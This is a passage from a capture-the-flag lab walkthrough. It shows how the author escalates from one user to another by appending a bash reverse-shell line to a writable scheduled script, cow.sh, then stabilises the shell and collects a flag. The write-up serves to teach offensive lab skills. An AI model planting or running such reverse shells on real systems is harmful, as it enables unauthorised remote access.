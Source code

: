 We got a script called `cow.sh` running at `jobs` directory on toby's home, let's check if we can modify this so we can get a shell as mat:

![Pasted image 20250326155955.png](../../IMAGES/Pasted%20image%2020250326155955.png)

We indeed can, let's modify it:

```
echo "/bin/bash -i >& /dev/tcp/IP/PORT 0>&1" >> /home/toby/jobs/cow.sh
```

After we set up a new listener with another port, we get this:

![Pasted image 20250326160120.png](../../IMAGES/Pasted%20image%2020250326160120.png)

There we go, we got our shell as `mat`, shell is a little unstable so we can stabilize it again:


```
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250326160254.png](../../IMAGES/Pasted%20image%2020250326160254.png)

Got the flag 5 and another note:
